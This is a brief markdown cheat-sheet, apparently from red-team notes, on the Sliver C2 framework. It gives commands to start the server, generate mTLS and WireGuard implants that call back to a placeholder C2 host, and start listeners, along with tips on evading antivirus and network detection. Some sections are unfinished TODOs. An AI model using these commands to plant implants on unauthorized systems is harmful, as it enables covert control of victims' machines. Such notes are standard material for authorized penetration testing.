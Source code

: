 Sliver C2 is a powerful post-exploitation framework that can be used to establish a firm foothold on a device with an extensible interface that reminds the user of Meterpreter. It is detected out of the box by most AV solutions, as it is very popular, but it can be obfuscated and otherwise made to evade detection. 

Documentation can be found here: https://sliver.sh/docs

# Server
```shell
sliver-server # start the server
```

The server functions as a fully featured point of interaction, and it is not required to use the client at all if no multiplayer is going to be used. However, if multiple operators will need to interact with compromised hosts, multiplayer mode will need to be enabled, and configuration files will need to be generated. 

# Multiplayer
TODO: Flesh out multiplayer enable and configuration generation

# Implant Generation
All of the implants generation is taken care of by the `generate` command. Sliver supports HTTP, DNS, WireGuard, TCP, and mTLS callbacks for both sessions and beacons. While these can be used for evasion, mTLS is a safer bet for avoiding NIDS because of its builtin and thorough encryption both directions. 

```bash
generate --mtls <FQDN of C2:port> --os <target operating system> --arch <target CPU architecture> --save <local save location> # generate an mTLS session sliver

generate beacon --wg <FQDN of C2:port> --os <target operating system> --arch <target CPU architecture> # generate a WireGuard beacon sliver
```

Sliver also supports multiple protocols per implant, with it defaulting between them in this order: mTLS -> WireGuard -> HTTP(S) -> DNS.

You must individually start jobs receiving new connections for each protocol

```bash
mtls # start an mTLS listener
dns # start a DNS listener
# etc...
```

# Armory
TODO: Give more details on loading armory modules and how to use them effectively.